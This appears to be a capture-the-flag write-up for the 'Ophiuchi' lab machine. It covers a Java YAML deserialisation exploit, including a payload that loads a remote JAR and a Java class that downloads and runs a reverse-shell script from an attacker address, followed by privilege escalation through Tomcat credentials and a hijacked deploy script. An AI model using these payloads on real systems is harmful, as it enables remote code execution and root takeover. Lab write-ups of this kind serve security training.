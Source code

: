 # Ophiuchi

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (59) (5).png" alt=""><figcaption></figcaption></figure>

### YAML Parser

Port 8080 was running an application that handles YAML input.

<figure><img src="../../../.gitbook/assets/image (50) (1) (3).png" alt=""><figcaption></figcaption></figure>

This was obviously a deserialisation exploit, where the application handles user input without sanitsation and it can lead to code execution. Googling for this led me to this repository.

{% embed url="https://github.com/mbechler/marshalsec" %}

Based on the PoC, we can first test whether the parser is able to send requests to our host using this script:

```java
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://VPN_IP/yaml-payload.jar"]
  ]]
]
```

And it does indeed work.

<figure><img src="../../../.gitbook/assets/image (48) (3).png" alt=""><figcaption></figcaption></figure>

We then need to use this bit of code here to make the machine download a reverse shell and execute it.

```java
package artsploit;

import javax.script.ScriptEngine;
import javax.script.ScriptEngineFactory;
import java.io.IOException;
import java.util.List;

public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("curl http://10.10.16.9/rev.sh -o /tmp/rev.sh");
            Runtime.getRuntime().exec("bash /tmp/rev.sh");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    @Override
    public String getEngineName() {
        return null;
    }

    @Override
    public String getEngineVersion() {
        return null;
    }

    @Override
    public List<String> getExtensions() {
        return null;
    }

    @Override
    public List<String> getMimeTypes() {
        return null;
    }

    @Override
    public List<String> getNames() {
        return null;
    }

    @Override
    public String getLanguageName() {
        return null;
    }

    @Override
    public String getLanguageVersion() {
        return null;
    }

    @Override
    public Object getParameter(String key) {
        return null;
    }

    @Override
    public String getMethodCallSyntax(String obj, String m, String... args) {
        return null;
    }

    @Override
    public String getOutputStatement(String toDisplay) {
        return null;
    }

    @Override
    public String getProgram(String... statements) {
        return null;
    }

    @Override
    public ScriptEngine getScriptEngine() {
        return null;
    }
}
```

After editing this code, we need to compile it to a JAR file using these:

```bash
javac AwesomeScriptEngineFactory.java 
jar -cvf AwesomeScriptingEngineFactory.jar -C src/ .
```

This would create a JAR file. Then, we can make the machine download the JAR file using the same method as above to receive callback. This would trigger the command and our listener port would receive a reverse shell as `tomcat`.&#x20;

<figure><img src="../../../.gitbook/assets/image (63) (5).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Tomcat Credentials

Since we are `tomcat`, we should look into the configurations for the Tomcat interface. This can be found within `~/conf/tomcat-users.xml`.

<figure><img src="../../../.gitbook/assets/image (52) (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

We can try an `su` to the `admin` user and find that it works with this password.

<figure><img src="../../../.gitbook/assets/image (67) (1) (3).png" alt=""><figcaption></figcaption></figure>

### Sudo Privileges

Since we have the password, we can check for `sudo` privileges.

<figure><img src="../../../.gitbook/assets/image (78) (3).png" alt=""><figcaption></figcaption></figure>

Seems that we can run `go` on a certain script:

```go
package main

import (
        "fmt"
        wasm "github.com/wasmerio/wasmer-go/wasmer"
        "os/exec"
        "log"
)


func main() {
        bytes, _ := wasm.ReadBytes("main.wasm")

        instance, _ := wasm.NewInstance(bytes)
        defer instance.Close()
        init := instance.Exports["info"]
        result,_ := init()
        f := result.String()
        if (f != "1") {
                fmt.Println("Not ready to deploy")
        } else {
                fmt.Println("Ready to deploy")
                out, err := exec.Command("/bin/sh", "deploy.sh").Output()
                if err != nil {
                        log.Fatal(err)
                }
                fmt.Println(string(out))
        }
}
```

The `deploy.sh` does not have absolute path, so we can create our own script to get a `root` shell. However, before running that, the script seems to check `main.wasm` and only runs `deploy.sh` if it returns 1.&#x20;

Running the script does not work no matter what for now, so let's investigate `main.wasm`. WASM is short for Web Assembly, and we can download and decompile the file here:

{% embed url="https://wasdk.github.io/WasmFiddle/" %}

This would allow us to see the code that is present. Alternatively, we can use `wasm-decompile` to read it.

```
export memory memory(initial: 16, max: 0);

global g_a:int = 1048576;
export global data_end:int = 1048576;
export global heap_base:int = 1048576;

table T_a:funcref(min: 1, max: 1);

export function info():int {
  return 0
}
```

The above code seems to do nothing but return 0, so we need to change that 0 to a 1. We can count the bytes and change the byte accordingly using `dd`.&#x20;

<figure><img src="../../../.gitbook/assets/image (101) (1).png" alt=""><figcaption></figcaption></figure>

Afterwards, we can create a `deploy.sh` file that adds our public key into the `/root/.ssh/authorized_key` folder and run the `sudo` command.

This would allow us to SSH in as `root`.

<figure><img src="../../../.gitbook/assets/image (100) (4).png" alt=""><figcaption></figcaption></figure>
